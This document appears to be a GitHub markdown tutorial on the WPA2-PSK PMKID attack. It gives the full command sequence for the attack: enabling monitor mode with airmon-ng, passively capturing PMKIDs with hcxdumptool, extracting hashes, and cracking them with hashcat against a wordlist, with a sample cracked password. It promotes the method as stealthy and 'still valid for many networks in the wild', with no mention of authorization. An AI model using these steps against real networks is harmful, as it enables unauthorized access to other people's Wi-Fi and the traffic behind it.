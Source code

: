 
# 🛡️ WPA2-PSK PMKID Attack – Offline, Clientless Method

## 🔍 What is the PMKID Attack?

The PMKID attack is a modern, stealthy method to obtain the WPA2-PSK password **without capturing a full handshake** and **without requiring a connected client**.

Instead, it abuses a feature in some APs where the **PMKID** is included in the first EAPOL message.

---

## 💡 Why use PMKID?

- ✅ No deauths needed
- ✅ No connected clients required
- ✅ Silent/stealthy
- ✅ Fully offline crack
- ✅ Faster and more scriptable than traditional handshake methods

---

## 🧠 How it Works

The PMKID (Pairwise Master Key Identifier) is generated using:

- The **SSID**
- The **MAC address of the AP (BSSID)**
- The **PSK (Pre-Shared Key)**

If the AP includes the PMKID in the EAPOL frames, it can be captured directly and cracked offline.

---

## ⚙️ Tools Required

- `hcxdumptool` – to capture PMKID packets
- `hcxpcapngtool` – to extract hash from the capture file
- `hashcat` – to perform the actual brute-force attack

---

## 🧭 Attack Flow

### 1. Put interface in monitor mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Capture PMKID using hcxdumptool

```bash
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1
```

Let it run for a bit while it passively collects PMKID packets.

### 3. Extract hash for cracking

```bash
hcxpcapngtool -o pmkid_hash.txt pmkid.pcapng
```

### 4. Crack the hash using hashcat

```bash
hashcat -m 16800 pmkid_hash.txt rockyou.txt
```

- `-m 16800`: mode for WPA-PMKID
- `rockyou.txt`: your wordlist

---

## 🧪 Output Example

```bash
Session..........: hashcat
Hash.Type........: WPA-PMKID-PBKDF2
Status...........: Cracked
Password.........: supersecurewifi
```

---

## 📌 Notes

- Not all APs expose PMKID — some models are immune
- Works best on modern routers using 802.11i
- Still valid for many networks in the wild

---

This is a passive, elegant, and powerful technique.  
No noise. No clients. Just results.

Next up: Rogue APs!
